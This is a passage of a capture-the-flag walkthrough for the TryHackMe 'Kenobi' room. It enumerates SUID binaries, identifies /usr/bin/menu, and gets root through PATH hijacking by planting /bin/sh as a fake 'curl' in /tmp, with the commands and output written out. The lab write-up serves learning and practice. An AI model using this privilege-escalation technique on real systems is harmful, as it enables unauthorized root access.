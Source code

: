 ```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
**What file looks particulary out of the ordinary?**
The `/usr/bin/menu` looks a bit odd. It could be worth checking out. 

**Run the binary, how many options appear?**
```
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```
There are **3** choices for us to choose from. 

Let's continue with the task! We need to get the root flag. In order to do this, we'll need to manipulate our path to gain a root shell. THM provides us with the commands to do this: 
```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 
```
THM explains why we did this: 
> We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
